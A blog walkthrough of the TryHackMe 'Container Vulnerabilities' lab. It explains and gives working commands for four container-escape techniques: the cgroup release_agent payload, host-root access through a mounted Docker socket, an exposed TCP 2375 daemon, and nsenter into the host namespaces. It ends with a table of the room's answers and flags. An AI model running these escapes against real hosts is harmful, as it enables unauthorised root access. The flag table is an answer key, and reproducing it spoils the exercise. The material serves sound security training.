

---
layout: post
title: "Container Vulnerabilities - Breakouts via Privileged Capabilities, Docker Sockets, Exposed TCP, and Host Namespaces"
date: 2026-06-02T10:00:00+03:00
categories:
  - TryHackMe
  - DevSecOps
tags:
  - tryhackme
  - devsecops
  - container-security
  - docker-escape
  - capabilities
  - cgroups
  - unix-socket
  - namespaces
  - nsenter
author: muhammed
description: Technical walkthrough of TryHackMe Container Vulnerabilities exploring container breakouts through CAP_SYS_ADMIN cgroup release_agents, mounted Docker Unix sockets, unauthenticated remote TCP daemons, and shared host PID namespaces via nsenter.
toc: true
pin: false
math: false
mermaid: true
image:
---

## Overview

[Container Vulnerabilities](https://tryhackme.com/room/containervulnerabilitiesdg) is the fourth room in Section 4 (Container Security) of the TryHackMe DevSecOps learning path. While containers provide process-level isolation through Linux kernel namespaces and control groups (cgroups), misconfigurations often bridge this boundary. When a container runs with elevated capabilities, shared host namespaces, or direct socket access, an attacker who obtains a container foothold can pivot directly to the underlying host.

This walkthrough investigates four primary container breakout mechanisms:
- Exploiting `CAP_SYS_ADMIN` in privileged containers using cgroup v1 `release_agent` execution
- Abusing mounted Docker Unix sockets (`/var/run/docker.sock`) to spawn sibling host-mounting containers
- Interacting with unauthenticated Docker daemons exposed over TCP port 2375
- Escaping containers sharing the host PID namespace using `nsenter` to jump into host process contexts

---

## 1. Container Attack Vectors & Escape Taxonomy

Containers rely on the host Linux kernel to enforce process boundaries. If any primitive granting host access or raw kernel syscall permissions is misconfigured, isolation collapses.



---

## 2. Vulnerability 1: Privileged Containers & Cgroup Escape (Task 3)

### Linux Capabilities & The Privileged Mode

By default, Docker drops dangerous Linux kernel capabilities (such as `CAP_SYS_ADMIN`, `CAP_SYS_MODULE`, and `CAP_SYS_RAWIO`). Starting a container with the `--privileged` flag bypasses this protection, granting the container all host root capabilities and raw device access.

To enumerate active capabilities from inside a container:

```bash
capsh --print
```

When `cap_sys_admin` is present, the container can mount filesystems and manipulate control groups.

### The Cgroup v1 `release_agent` Exploit

In Linux control groups (cgroup v1), when the last process in a cgroup exits and `notify_on_release` is enabled, the kernel automatically executes the binary path specified in `release_agent` as root on the host. Because the host kernel executes this callback, any binary written to the container storage layer that is reachable from the host filesystem will run with full host privileges.

```bash
# 1. Create a cgroup mount point and mount the rdma or memory cgroup controller
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# 2. Enable notify_on_release for the newly created child cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. Determine the upperdir host path where the container filesystem lives
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# 4. Point release_agent to our payload script on the host filesystem
echo "$host_path/exploit" > /tmp/cgrp/release_agent

# 5. Write the payload script to execute on the host
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit

# 6. Spawn a short-lived process in the cgroup to trigger the release callback
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Once the process exits, the host kernel triggers `/exploit`, extracting the host flag into `/flag.txt` inside the container:

```text
THM{MOUNT_MADNESS}
```

---

## 3. Vulnerability 2: Escaping via Exposed Docker Daemon Socket (Task 4)

### Docker Socket Mechanics

The Docker client interacts with `dockerd` over a Unix domain socket at `/var/run/docker.sock`. Because Unix sockets rely on standard POSIX filesystem permissions, any user who can read and write to this socket can issue API commands to `dockerd`. Since `dockerd` executes as `root` on the host, write access to the socket is functionally equivalent to host root access.

Developers sometimes mount `/var/run/docker.sock` into containers to permit "Docker-in-Docker" workflows (such as CI/CD build agents).

### Identifying the Socket

Inspecting the container filesystem reveals the mounted Unix socket:

```bash
ls -la /var/run | grep sock
# srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock
```

The socket directory path inside the container is `/var/run`.

### Spawning a Privileged Host Mount Container

With access to the Docker socket, an attacker can invoke the host Docker daemon to spin up a new container that mounts the host root filesystem (`/`) to `/mnt`:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Breakdown of the execution flags:
- `-v /:/mnt`: Mounts the host root filesystem into the container at `/mnt`.
- `--rm`: Cleans up the container upon exit.
- `-it`: Allocates an interactive shell session.
- `alpine`: Uses the local lightweight Alpine Linux base image.
- `chroot /mnt sh`: Changes the container root directory to the mounted host filesystem (`/mnt`) and executes a shell.

Once inside the chrooted environment, reading `/root/flag.txt` reveals the host flag:

```bash
cat /root/flag.txt
```

```text
THM{NEVER-ENOUGH-SOCKS}
```

---

## 4. Vulnerability 3: Remote Code Execution via Exposed TCP Daemon (Task 5)

### Unauthenticated TCP Socket Exposure

Docker can be configured to accept remote management requests by binding its daemon to a network interface. By default, unencrypted and unauthenticated Docker API traffic listens on TCP port **2375** (encrypted TLS traffic typically listens on port 2376).

If port 2375 is exposed without mutual TLS (mTLS), any network-accessible client can manage the cluster.

### Target Enumeration & API Verification

Scanning the target machine with `nmap`:

```bash
nmap -sV -p 2375 MACHINE_IP
```

Querying the Docker REST API directly using `curl`:

```bash
curl http://MACHINE_IP:2375/version
```

### Remote Command Execution via Docker CLI

Using the `-H` flag, we direct our local Docker client to communicate with the remote daemon over TCP:

```bash
# List containers on the remote host
docker -H tcp://MACHINE_IP:2375 ps

# List available images
docker -H tcp://MACHINE_IP:2375 images

# Execute commands inside existing containers or deploy new privileged containers
docker -H tcp://MACHINE_IP:2375 exec -it <container_id> sh
```

---

## 5. Vulnerability 4: Abusing Shared Namespaces (Task 6)

### Identifying Shared Process Namespaces

Containers typically run with their own dedicated PID namespace, meaning `ps aux` shows only a handful of container processes (with the container entrypoint starting as PID 1).

However, if a container is launched with `--pid=host`, it shares the host PID namespace. Listing processes reveals all background daemons and user sessions running on the host system:

```bash
ps aux
```

Seeing processes such as `kthreadd`, `systemd`, `cron`, and `sshd` inside the container confirms shared PID namespace execution.

### Namespace Escape Using `nsenter`

The `nsenter` utility allows a process to enter the namespaces of another target process. Because the container can observe host PID 1 (`/sbin/init` or `systemd`), we can transition into its mount, UTS, IPC, and network namespaces:

```bash
nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

Breakdown of parameters:
- `--target 1`: Targets host PID 1 (init / systemd).
- `--mount`: Enters the target mount namespace, granting access to the host root filesystem.
- `--uts`: Enters the target UTS namespace, matching host hostname.
- `--ipc`: Enters the target Inter-process Communication namespace.
- `--net`: Enters the target network namespace, exposing host network interfaces.
- `/bin/bash`: Executes a root shell in the context of host PID 1.

Upon execution, the terminal prompt changes to the host hostname (`thm-docker-host`). We navigate to `/home/tryhackme/flag.txt` to capture the flag:

```bash
cat /home/tryhackme/flag.txt
```

```text
THM{YOUR-SPACE-MY-SPACE}
```

---

## 6. Question, Answer, and Flag Summary

| Task # | Task Title | Question / Challenge | Answer / Flag |
|---|---|---|---|
| **Task 1** | Introduction (Deploy) | Complete me to progress with this room! | *No answer needed* |
| **Task 2** | Container Vulnerabilities 101 | Click to proceed to the next task! | *No answer needed* |
| **Task 3** | Vulnerability 1: Privileged Containers | What is the value of the flag that has now been added to the container? | `THM{MOUNT_MADNESS}` |
| **Task 4** | Vulnerability 2: Escaping via Exposed Docker Daemon | Name the directory path which contains the docker.sock file on the container. | `/var/run` |
| **Task 4** | Vulnerability 2: Escaping via Exposed Docker Daemon | What is the value of the flag located at /root/flag.txt on the host operating system? | `THM{NEVER-ENOUGH-SOCKS}` |
| **Task 5** | Vulnerability 3: Remote Code Execution | What port number, by default, does the Docker Engine use? | `2375` |
| **Task 6** | Vulnerability 4: Abusing Namespaces | What is the flag located in /home/tryhackme/flag.txt? | `THM{YOUR-SPACE-MY-SPACE}` |
| **Task 7** | Conclusion | Click me to finish the room! | *No answer needed* |

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
